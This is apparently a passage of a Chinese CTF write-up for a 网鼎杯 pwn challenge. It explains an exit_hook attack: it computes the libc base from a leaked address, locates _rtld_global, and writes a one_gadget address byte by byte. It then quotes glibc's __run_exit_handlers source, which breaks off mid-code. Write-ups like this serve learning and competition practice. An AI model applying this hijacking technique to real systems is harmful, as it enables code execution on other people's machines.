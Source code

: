 ![](D:/blog/source/_posts/网鼎杯部分wp/4.png)

![](D:/blog/source/_posts/网鼎杯部分wp/5.png)

s相对于libcbase的偏移为0x7ffff7f17028 - 0x7ffff7a0d000

# 计算exit_hook的偏移

gdb,用p _rtld_global

![](D:/blog/source/_posts/网鼎杯部分wp/6.png)

调整让[_rtld_global+8] == 0,这样s指向了rtld_global+8的位置

```c
s = "aaaa";
libcbase = s - (0x7ffff7f17028 - 0x7ffff7a0d000);
s = libcbase + 6229832 - 3848 + 8;
```

让 * s = 0 即（*s ==s[0]）

然后让s重新指向exit_hook

```
s[0] = 0;
s = libcbase + 6229832;
```

之后

```
p = libcbase + 0xcd0f3;
s[0] = p&0xff;
s[1] = (p>>8)&0xff;
s[2] = (p>>16)&0xff;
```

ps:

exit_hook攻击

更改exit()某一结构体,可以实现exit()函数的劫持

exit()源代码

![](D:/blog/source/_posts/网鼎杯部分wp/7.png)

调用`__run_exit_handlers`函数,查看源代码

```c
while (cur->idx > 0)
{
  struct exit_function *const f = &cur->fns[--cur->idx];
  const uint64_t new_exitfn_called = __new_exitfn_called;

  /* Unlock the list while we call a foreign function.  */
  __libc_lock_unlock (__exit_funcs_lock);
  switch (f->flavor)
    {
      void (*atfct) (void);    
      void (*onfct) (int status, void *arg);  
      void (*cxafct) (void *arg, int status);  

    case ef_free:
    case ef_us:
      break;
    case ef_on:
      onfct = f->func.on.fn;
```